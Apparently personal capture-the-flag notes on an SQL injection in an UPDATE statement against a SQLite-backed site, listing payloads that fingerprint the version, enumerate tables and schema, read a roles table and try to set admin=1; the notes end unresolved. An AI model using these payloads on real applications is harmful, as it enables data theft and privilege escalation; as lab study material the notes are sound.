 ```yaml
---
created: 2024-06-09T16:20
updated: 2024-06-10T23:19
---
```


> I was working on this website and wanted you to check it out. The code is a bit of a mess, since it's only an extremely early version. In fact, you're the very first user, with ID 1!
> PLEASE NOTE: What you do should, in theory, not affect other solvers. Please let us know if this is not the case.

---

SQL Injection huh, and with `UPDATE`.

Make a guess for the statement.

```sql
UPDATE table SET name="<input>" WHERE id='1'
```

With some [version checking](../../sql.md)...

```sql
UPDATE table SET name=""||(SELECT sqlite_version())||"" WHERE id='1'
```

We can determine that it is sqlite.

```sql
UPDATE table SET name=""||(SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('users'))||""
```

```
" || (SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%') || "

## users,roles_e25832119caec3e7

" || (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='roles_aa673201a75d3012') || "

## CREATE TABLE roles_aa673201a75d3012 (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE).

" || (SELECT id||","||admin FROM roles_2d69a85c4fb75907 WHERE id='1') || "

## 1,0

" || (UPDATE roles_e25832119caec3e7 SET admin=1) || "


", admin="1"
```

Welp, idk
